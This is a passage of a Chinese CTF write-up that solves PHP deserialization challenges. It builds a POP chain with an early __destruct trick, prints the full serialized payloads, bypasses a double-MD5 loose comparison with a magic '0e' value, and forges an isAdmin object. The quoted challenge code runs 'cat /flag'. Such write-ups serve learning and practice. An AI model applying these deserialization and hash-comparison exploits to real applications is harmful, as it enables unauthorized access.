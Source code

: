 解决办法是使用`GC`回收机制提前触发`__destruct`:  对象为`NULL`时也是可以触发`__destruct`，所以我们可以反序列化一个数组，然后写入第一个索引为对象，将第二个赋值为0   
比如:  
```php
echo serialize(array($pop,null));

#运行的结果是
a:2:{i:0;O:11:"Tianmingren":2:{s:8:"tianming";N;s:3:"ren";N;}i:1;N;}
#我们修改下，把第二个索引置空
a:2:{i:0;O:11:"Tianmingren":2:{s:8:"tianming";N;s:3:"ren";N;}i:0;}
```
这样即可成功提前触发`__destruct`  

之后根据题目代码构建pop链:
```php

$pop->tianming=new Dinghaishenzhen;
$pop->tianming->yun=new Huoyanjinjing();
$pop->tianming->yun->huoyan=new Wuzhishan;

echo serialize(array($pop,null));
```
payload: 
```
Wukong=a:2:{i:0;O:11:"Tianmingren":2:{s:8:"tianming";O:15:"Dinghaishenzhen":2:{s:6:"Jindou";s:40:"一个筋斗能翻十万八千里！<br>";s:3:"yun";O:13:"Huoyanjinjing":2:{s:6:"huoyan";O:9:"Wuzhishan":3:{s:2:"wu";s:40:"俺老孙定要踏破这五指山！<br>";s:3:"zhi";N;s:4:"shan";N;}s:7:"jinjing";N;}}s:3:"ren";N;}i:0;}
```
上面的payload成功触发了Wuzhishan类的__get方法，接下来我们要绕过这个md5值比较，题目的要求换个说法就是: 一个值md5加密后和它本身相等 ，即双md5加密。  
在[](https://www.dr0n.top/posts/ad669f62/#%E5%8F%8CMD5)找到现成的值，挑一个，payload: `?J=0e00275209979`    
```php
echo "此地阴阳二气略显虚浮，加上刚刚带入的阳气，或可借此遁逃！<br>";
    $yin="s214587387a";
    $yang=$_GET['J'];
    if (md5($yin)==$yang&&md5($yin)==md5($yang)){
        echo "哦？又一个不信天命之人？行了，拿了东西速速离开吧<br>";
            ystem('cat /flag');
    }
```
传入得到flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241112220145.png)  
### 9、ezserialize
题目关键代码如下：  
```php
class User {
    public $username;
    public $isAdmin = false;

    public function __construct($username) {
        $this->username = $username;
    }

    public function __wakeup() {
        if ($this->isAdmin) {
            echo "Welcome, admin! Here's your flag: " . (new Flag())->getFlag();
        } else {
            echo "Hello, " . htmlspecialchars($this->username) . "!";
        }
    }
}
```
我们只要修改`$isAdmin`的值为`true`即可，exp如下：    
```php
$pop=new User('shone');
$pop->isAdmin=true;
echo serialize($pop);
```